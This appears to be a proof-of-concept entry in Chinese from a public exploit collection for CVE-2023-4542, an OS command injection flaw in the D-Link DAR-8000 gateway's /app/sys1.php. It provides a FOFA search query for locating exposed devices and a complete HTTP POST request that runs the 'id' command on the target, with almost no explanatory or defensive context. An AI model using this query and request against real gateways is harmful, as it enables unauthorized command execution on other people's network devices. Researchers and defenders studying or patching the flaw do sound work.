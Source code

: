 ## D-Link_DAR-8000操作系统命令注入漏洞(CVE-2023-4542)

D-Link DAR-8000是中国友讯（D-Link）公司的上网行为审计网关。

D-Link DAR-8000-10版本存在操作系统命令注入漏洞，该漏洞源于文件/app/sys1.php的参数id会导致操作系统命令注入。

![c28cb815357f9d7746051855c037606e](https://github.com/wy876/POC/assets/139549762/ce09a764-517f-449d-8296-97a315b590ba)

## fofa
```
body="DAR-8000-10" && title="D-Link"
```

## poc
```
POST /app/sys1.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![532f25d46e25fe6fb6ceff1b97beb88f](https://github.com/wy876/POC/assets/139549762/4ac6df4e-d49c-43ee-83f2-e49ce8f7db3b)
